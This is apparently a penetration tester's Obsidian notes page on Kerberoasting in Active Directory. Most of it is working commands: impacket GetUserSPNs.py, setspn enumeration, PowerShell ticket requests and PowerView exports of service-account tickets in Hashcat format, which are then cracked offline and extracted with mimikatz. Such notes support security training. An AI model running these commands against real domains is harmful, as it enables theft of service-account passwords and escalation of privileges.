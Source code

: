 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```
Kerberoasting is a lateral movement/privilege escalation technique used in AD environments. It attacks [[Active Directory#Service Principal Name (SPN)|Service Principle Name (SPN)]] accounts.
![[Active Directory#Service Principal Name (SPN)]]
Domain accounts are often used to run services to overcome network auth limitations of local built-in accounts. However, any domain user can request a Kerberos ticket for any service account in the same domain (*This is also possible across trusts if the relationship permits it*). Once you have an account (credentials, NTLM hash, shell in context, or SYSTEM access on a domain joined host), you can perform a Kerberoasting attack.

Domain accounts that run services are often local administrators or high privileged domain accounts due to the distributed nature of how the services interact in the network.

**The Key Vulnerability**
Even with a Kerberos ticket for one of these privileged accounts, we cannot just execute commands as that user. However, the ticket ([[Kerberos#Ticket Granting Service (TGS)|TGS-REP]]) is *encrypted with the service account's NTLM hash*. This then means that theoretically, the plain-text password for the service account could be brute forced (eg. [[Hashcat]]).

Often, the password for these service accounts are weak or reused, so breaking one could give you access to a variety of accounts or servers. Cracking one of these service accounts, could give you an attack path through a service to gain RCE.

The attack can be performed from multiple places:
- From a non-domain joined Linux host using valid domain user credentials
- From a domain-joined Linux host as root after retrieving the `keytab` file
- From a domain-joined Windows host authenticated as a domain user
- From a domain-joined Windows host with a shell in the context of a domain account
- As `SYSTEM` on a domain-joined Windows host
- From a non-domain joined Windows host using [runas](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525(v=ws.11)) `/netonly`

### Kerberoasting with GetUserSPNs.py - Linux
`GetUserSPNs.py` is an [impacket toolkit](https://github.com/SecureAuthCorp/impacket) script for working with SPNs.
#### Request TGS tickets for SPN accounts
```bash
# Requests from all accounts
GetUserSPNs.py -dc-ip [ip] [domain]/[user] -request -outputfile all_accounts_tgs

# Requests from a single account
GetUserSPNs.py -dc-ip [ip] [domain]/[user] -request-user [target-user]
```
> The output will be in format for [[Hashcat]] - mode: 13100
> We can then use a tool like [[CrackMapExec]] to validate the account credentials once cracked.

### Manual Kerberoasting with setspn.exe - Windows
Before modern automated tools existed, manual methods such as using the built-in [setspn](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc731241(v=ws.11)) was the way this attack was performed.
The general methodology is to extract a bunch of SPNs, then request TGS tickets and have them loaded into memory. Finally, we can then use a tool like [[Mimikatz]] to extract them from memory.
#### Enumerate SPNs
```batch
setspn.exe -Q */*

:: Example Output
CN=sqldev,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433
```
> This will return not only users, but computers too. You may want to only focus on users.

#### Targeting a single user
```PowerShell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```
The general concept here is:
1. The `Add-Type` cmdlet allows us to use `.NET` classes
2. The `-AssemblyName` allows us to specify the assembly with the types we need
3. [System.IdentityModel](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel?view=netframework-4.8) is the namespace that contains the classes relating to building security token services
4. `New-Object` creates a new `.NET` object
5. Using the [System.IdentityModel.Tokens](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens?view=netframework-4.8) namespace with the [KerberosRequestorSecurityToken](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens.kerberosrequestorsecuritytoken?view=netframework-4.8) class creates a security token for the passed SPN name for our currently logged in user
> This is essentially what automated tools such as [[Rubeus]] do

#### Targeting all users
> This will include computers, not just users

```PowerShell
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

#### Extracting the tickets from memory using [[Mimikatz]]
![[Mimikatz#Extracting Kerberos TGS Tickets]]

### Automated Kerberoasting with PowerView - Windows
#### View users with SPNs
```PowerShell
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname
```
#### Target a specific user
```PowerShell
Get-DomainUser -Identity [user] | Get-DomainSPNTicket -Format Hashcat
```
#### Extracting all tickets to a csv
```PowerShell
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv [outputfile].csv -NoTypeInformation
cat [outputfile].csv
```


